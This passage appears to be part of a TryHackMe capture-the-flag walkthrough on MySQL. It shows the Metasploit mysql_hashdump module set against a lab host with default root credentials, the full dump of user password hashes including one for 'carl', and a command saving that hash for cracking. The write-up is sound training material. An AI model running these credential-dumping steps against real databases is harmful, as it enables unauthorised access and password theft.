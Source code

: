 `auxiliary/scanner/mysql/mysql_hashdump`

Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

```
msf5 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.91.253
RHOSTS => 10.10.91.253
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.91.253:3306     - Saving HashString as Loot: root:
[+] 10.10.91.253:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.91.253:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.91.253:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.91.253:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.91.253:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.91.253:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`carl`

Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:\*HASH to a text file on your local machine called "hash.txt". What is the user/hash combination string?

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ echo -n '*EA031893AA21444B170FC2162A56978B8CEECE18' > hash.txt
```

`carl:*EA031893AA21444B170FC2162A56978B8CEECE18`
